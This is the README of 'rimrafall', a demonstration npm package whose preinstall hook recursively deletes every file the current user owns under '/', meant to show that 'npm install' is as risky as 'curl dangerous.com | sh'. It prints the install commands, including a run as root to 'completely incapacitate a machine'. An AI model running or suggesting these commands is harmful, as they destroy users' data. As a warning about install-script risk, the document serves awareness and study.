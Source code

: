 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

# Whatever you do, do not

```
npm install rimrafall
```

It has a [`preinstall` script](https://github.com/joaojeronimo/rimrafall/blob/master/package.json#L7) that will delete all the files and folders your current user owns, recursively, in `/`.

## legitimate use case:

e.g., you need to completely incapacitate a machine (but please do heed the warning above):

```
sudo su -
npm install rimrafall
```

you might see lots of error messages like these:

```
rm: cannot remove `/sys/block/sda': Operation not permitted
rm: cannot remove `/sys/block/dm-0': Operation not permitted
rm: cannot remove `/sys/block/dm-1': Operation not permitted
```

which can safely be ignored.
